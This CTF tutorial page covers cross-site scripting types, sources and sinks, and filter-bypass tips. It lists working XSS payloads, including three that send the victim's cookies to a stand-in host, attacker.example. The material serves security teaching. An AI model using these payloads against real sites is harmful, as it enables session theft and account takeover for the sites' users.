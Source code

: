 ```yaml
---
title: "Cross-Site Scripting (XSS)"
description: "Exploit reflected, stored, or DOM-based XSS vulnerabilities to execute JavaScript in the victim’s browser during CTF challenges."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["xss", "cross-site scripting", "web", "ctf"]
authors: ["CTF.Support Team"]
summary: "Learn XSS techniques to inject JavaScript payloads through input fields, parameters, or stored content to exfiltrate data or trigger flags."
aliases: ["/web/xss/"]
slug: "xss"
toc: true
---
```


## Introduction

**Cross-Site Scripting (XSS)** vulnerabilities allow attackers to inject JavaScript into a webpage viewed by other users.
They commonly appear in parameters, forms, or stored data without proper output sanitization.

---

## Types

| Type          | Description                                                                      |
|---------------|----------------------------------------------------------------------------------|
| **Reflected** | Payload included in the request and immediately reflected back to the user.      |
| **Stored**    | Payload stored permanently on the server (e.g., in a database).                  |
| **DOM-Based** | Payload executed in the browser without server interaction by modifying the DOM. |

---

## Sources and Sinks

- **Sources** - Where user data *enters the page logic*, such as: `location.hash`, `document.URL`, `document.referrer`
- **Sinks** - Where that data *is written to the page*, like: `document.write()`, `innerHTML`, `eval()`, `setTimeout()`, `Element.innerText`

**Rule of thumb:** Danger arises when untrusted data enters a Source to a Sink without sanitization.

---

## Quick Reference

| Context         | Example                                             | Notes                       |
|-----------------|-----------------------------------------------------|-----------------------------|
| **HTML**        | `<script>alert(1)</script>`                         | Standard test               |
| **Attribute**   | `<img src=x onerror=alert(1)>`                      | Event handler               |
| **URL**         | `javascript:alert(1)`                               | Clickable JavaScript scheme |
| **CSS / Style** | `<div style="background:url(javascript:alert(1))">` | Rare but possible           |
| **SVG**         | `<svg/onload=alert(1)>`                             | Common filter bypass        |

---

## Common Payloads

### Basic Proofs of Concept

```html
<script>alert(document.domain)</script>
<img src=x onerror=alert(document.domain)>
<a href="javascript:alert(document.cookie)">Click Me</a>
```

### Cookie or Data Exfiltration (CTF Exercises)

**Redirect and log cookie:**

```javascript
document.location = "https://attacker.example/?c=" + document.cookie
```

**Stealth exfiltration via image request:**

```javascript
document.write('<img src="https://attacker.example/collect.gif?cookie=' + document.cookie + '">')
```

or

```html
<img src=x onerror=this.src='https://attacker.example/?c='+document.cookie>
```

---

## DOM-Based Example

```js
var search = location.hash.substring(1); // Source
document.getElementById("output").innerHTML = search; // Sink
```

Visiting `https://target/#<img src=x onerror=alert(1)>` executes the script entirely client‑side.

---

## Tips

- Use the browser’s developer console to observe reflected parameters.
- Encode payloads for bypass: `&lt;script&gt;alert(1)&lt;/script&gt;`
- Bypass filters with alternate encodings or event handlers (`onfocus`, `onmouseover`).
